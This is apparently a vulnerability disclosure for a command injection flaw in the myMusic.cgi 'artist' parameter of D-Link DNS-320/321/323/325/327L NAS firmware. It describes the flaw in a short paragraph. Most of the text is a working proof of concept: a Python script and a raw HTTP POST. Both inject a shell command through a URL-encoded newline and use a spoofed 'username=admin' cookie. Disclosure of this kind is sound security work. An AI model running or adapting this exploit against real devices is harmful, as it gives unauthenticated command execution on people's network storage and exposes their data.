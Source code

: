 # Overview
Firmware download website:
 [https://ftp.dlink.ru/pub/NAS/](https://ftp.dlink.ru/pub/NAS/)

# Affected version
DLINK DNS-320/320L/321/323/325/327L all versions of the firmware
# Vulnerability details
The DLINK nas DNS-320/320L/321/323/325/327L  all firmware version has a command injection vulnerability in cgi_get_artist_all_albums function of the file /cgi-bin/myMusic.cgi.  The variable `artist`is passed from a POST request and is assigned to `v4` via the `snprintf` function at line 23 and invoked by the `popen` command, the SpecSymbol2BackSlash function did not work which leads to command execution. 
![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723712971641-94eb07ee-10c2-4876-965d-d21348b316fa.png#averageHue=%23fbfbf7&clientId=u947b4721-9785-4&from=paste&height=224&id=ua9d58f61&originHeight=224&originWidth=768&originalType=binary&ratio=1&rotation=0&showTitle=false&size=37332&status=done&style=none&taskId=u1da20420-78f6-4744-8c6c-80dd341ff74&title=&width=768)
# POC
```python
import requests

url = "http://192.168.0.32/cgi-bin/myMusic.cgi"
headers = {
    "Host": "192.168.0.32",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/x-www-form-urlencoded",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.0.32",
    "Connection": "close",
    "Referer": "http://192.168.0.32/photo_center/index.html",
    "Cookie": "username=admin",
    "Priority": "u=1"
}

data = "cmd=cgi_get_artist_all_albums&artist=%0atouch%09/tmp/116%0a&user=11"
response = requests.post(url, headers=headers, data=data)
print(response.text)

```

```
POST /cgi-bin/myMusic.cgi HTTP/1.1
Host: 192.168.0.32
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 110
Origin: http://192.168.0.32
Connection: close
Cookie: username=admin
Priority: u=1

cmd=cgi_get_artist_all_albums&artist=%0atouch%09/tmp/116%0a&user=11
```


